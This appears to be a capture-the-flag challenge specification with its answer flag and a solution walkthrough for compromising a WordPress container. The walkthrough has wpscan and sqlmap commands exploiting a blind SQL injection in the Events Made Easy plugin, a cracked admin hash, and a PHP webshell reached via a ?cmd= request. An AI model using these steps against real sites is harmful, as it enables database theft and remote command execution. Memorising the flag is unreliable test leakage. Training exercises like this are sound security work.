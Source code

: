 | metadata | <> |
|--- | --- |
| Developer Name(s) | sudosammy |
| Best Contact Slack handle / Email address | [redacted] |
| Challenge Category | Exploitation |
| Challenge Tier | 2 |
| Challenge Type | Container |

| Player facing | <> |
|--- | --- |
|Challenge Name | Not on my watch #1 |
|Challenge Description | The notorious R3kt Sec crew have started a blog showing off their zero days! You know how embarrassing that is for us, a rival crew, with no blog! I hear the administrators of the blog aren’t so good at keeping the plugins up to date though... It’s shell popping time. Challenge is at: `http://exp-2` Note: this challenge requires automated enumeration which could take a while. |
|Challenge Hint 1 | Find an SQL injection in one of the plugins, there's more than 1! Get command execution via the Wordpress admin panel the find your flag. |
|Challenge Hint 2 | Some tools that will help you solve this challenge include `sqlmap`, `hashcat`, and `wpscan`. |

| Admin Facing | <> |
|--- | --- |
|Challenge Flag| WACTF{shells_for_the_shell_king_26863} |
|Challenge Vuln| Blind SQLi in plugin, extract hashed password, crack it, use admin panel to get a shell and read file |
|Docker Usage Idle| 90MB RAM |
|Docker Usage Peak| 150MB RAM |
---

1. Run `wpscan` against the site, you need to use the aggressive/active plugin detection
2. `sudo wpscan --url http://exp-2/ -e vp --plugins-detection aggressive`
3. You'll find the outdated "Events Made Easy" plugin, goolging for known CVE's will lead you to this: https://wpscan.com/vulnerability/ff5fd894-aff3-400a-8eec-fad9d50f788e 
4. You can chuck that PoC into sqlmap (retrieve and replace the nonce value following the instructions linked above) `sqlmap -u "http://exp-2/wp-admin/admin-ajax.php?action=eme_select_country&eme_frontend_nonce=8033a24b6e&lang=*" --dump -D wordpress -T wp_users` - I couldn't get the provided cURL command to work, didn't try very hard though
5. sqlmap can crack the password for you too! Just select the correct prompts. You could also do it with hashcat though, wordpress hashes are supported
6. `P$B84JM2mfFCw57hfCr4yuzBJ6xC3QJ8/ (qwertyuiop)` login to the application with your new `test_admin_1337` creds
7. Use one of the many many methods you have available to you know to get a shell. The simplest way would be to overwrite a plugin file from `http://exp-2/wp-admin/plugin-editor.php` with a simple PHP webshell
8. hack the planet: `http://exp-2/wp-content/plugins/gwolle-gb/frontend/gb-rss.php?cmd=cat+%2Fflag.txt`

